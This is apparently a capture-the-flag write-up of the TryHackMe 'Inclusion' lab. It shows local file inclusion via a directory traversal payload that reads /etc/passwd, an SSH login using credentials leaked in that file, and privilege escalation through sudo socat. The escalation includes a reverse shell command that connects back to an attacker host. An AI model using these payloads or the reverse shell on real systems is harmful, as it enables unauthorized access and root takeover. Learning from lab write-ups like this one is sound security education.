## Introduction

This challenge on [TryHackme.com](http://tryhackme.com) focuses on Local File Inclusion attack. Local File Inclusion is when the attacker tricks the web application into exposing or running files on the webserver. 

Room Link: [https://tryhackme.com/room/inclusion](https://tryhackme.com/room/inclusion)

## Resources used

- Nmap
- GTFObins
- Kali VM

## Writeup

### Enumeration

The first and foremost step in any attack is an enumeration. So, gather data about the services running using a **Nmap** scan. 



From the scan results, we can derive that 2 services are running:

- SSH
- HTTP

### Web Recon

Let's poke at the Webserver and see it's contents.



It seems to be a blog. Explore it and see if anything is interesting to focus on. 

### Local File Inclusion

The pages takes in a parameter to the server to display the webpage. Tampering this may disclose files in the webserver causing a LFI attack if the application does not whitelist which files can be included.



Common files to look for : 

- /etc/passwd - View usernames of all users on a system
- /etc/shadow - View hashed passwords of all users on the system
- /etc/hosts - View other devices the webserver is communicating with.

and so much more if you're clever. 

**You can combine this with Directory traversal to access the file you want.** 

    >> website.com/article?name=../../../etc/passwd 

The passwd file has been exposed. In this, we can observe the users present in the system. 



There is a user named *falconfeast.* The interesting part is that there is a comment which possibly seems like a username and password. Keep in mind, this is a very rare occasion of having the password in the comment, which I believe is deliberately has been done by the creator of the room. After all this room is to understand the basics of LFI. 

### Entering the Web Server

Let's assess the situation.

- There are a username and password available
- There is an SSH present in the webserver

So, the next step is to try logging in to the server using SSH. 

    >> ssh falconfeast@rootpassword 



After logging in the directory has a user.txt file that contains the ***user flag!*** 

Observing the placement of the user.txt, it would be safe to assume the root flag would be in /root folder.



Unfortunately, neither the privilege cannot be escalated nor the /root folder can be accessed directly. But, have a look at the command allowed for *falconfeast* using :

    >> sudo -l



It mentions that the user is allowed to run /usr/bin/socat as root with no password required. 

> Socat is a command-line based utility that establishes two bidirectional byte streams and transfers data between them.

To learn how this can be abused, check [GTFOBins](https://gtfobins.github.io/). 

> GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

From that, it is confirmed that a [reverse shell](https://gtfobins.github.io/gtfobins/socat/) is possible. 

### Abusing Socat

On your machine run:

    >> socat file:`tty`,raw,echo=0 tcp-listen:12345

And on the LFI machine, run : 

    >> RHOST= <your ip address> 
    >> RPORT=12345
    >> socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane



Once you run the command on the LFI machine, the reverse shell must have been successfully created and you can access the machine as *root*. 

To confirm it, run:

    >> id  #this would print the real and effective user and group IDs.

Then move into /root folder and list out the items in it. 



The root.txt is present here with the ***root flag!** (Now you can pat yourself :p )*

---

### The Unintentional Way

There is another easy way to read the user and root flag, but I don't think it was the intended way but I would still love to share it.
The flags can be accessed directly through the URL if you are familiar with the location of the flags. 




## Final Thoughts

This room is not only a good experience for anyone looking to learn about LFI but also introduces the concept of privilege escalation using Unix Binaries and reverse shells. 
I will be trying other rooms at TryHackMe and posting my writeups too. So watch out this space for more awesome content.

---

If you like my content, let me know on Twitter: [https://twitter.com/swsjona](https://twitter.com/swsjona)

**Further Reading** 

[What is Local File Inclusion (LFI)? | Acunetix](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/)

[Local File Inclusion](https://blog.tryhackme.com/lfi/)